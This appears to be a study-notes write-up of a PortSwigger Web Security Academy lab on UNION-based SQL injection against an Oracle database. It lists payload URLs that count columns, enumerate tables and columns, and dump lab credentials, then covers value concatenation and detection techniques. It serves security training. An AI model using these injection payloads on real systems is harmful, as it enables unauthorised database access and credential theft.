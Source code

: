 ### Full example
We have to login into the administrator account of webapp which have SQLi and the database is Oracle type.
- This url `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle` shows the products in Lifestyle category.
- Firt we have to find the no of columns using SELECT NULL sequence like `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL+FROM+dual--`. It has 2 columns.
- Both are string datatype as `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle'+UNION+SELECT+'abc','abc'+FROM+dual--` doesn't give error.
- Using payload `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle%27+UNION+SELECT+table_name,NULL+FROM+all_table--` got all the tables.One table belongs to 'USERS_IYYBEU'.
- To get column names using `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle%27+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name=%27USERS_IYYBEU%27--`. Got 'PASSWORD_OOXRDO','USERNAME_LUDEWV'
- Got the credentials by using `https://target-ac721fbc1edd436280e906ea00920002.web-security-academy.net/filter?category=Lifestyle%27+UNION+SELECT+USERNAME_LUDEWV,PASSWORD_OOXRDO+FROM+USERS_IYYBEU--`.
```
administrator
5debptt5q63ni1firpcs
carlos
j4nhpp054y8s66xr11ar
wiener
s0hdf7igoj2inl21os8q
```
---
### Retrieving multiple values within a single column
In the preceding example, suppose instead that the query only returns a single column.\
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
```
' UNION SELECT username || '~' || password FROM users--
```
This uses the double-pipe sequence || which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.\
The results from the query will let you read all of the usernames and passwords, for example:
```
administrator~s3cure
wiener~peter
carlos~montoya
```
-----
# How to detect SQL injection vulnerabilities
SQL injection can be detected manually by using a systematic set of tests against every entry point in the application. This typically involves:
- Submitting the single quote character ' and looking for errors or other anomalies.
- Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
- Submitting Boolean conditions such as OR 1=1 and OR 1=2, and looking for differences in the application's responses.
- Submitting payloads designed to trigger time delays when executed within an SQL query, and looking for differences in the time taken to respond.
- Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query, and monitoring for any resulting interactions.
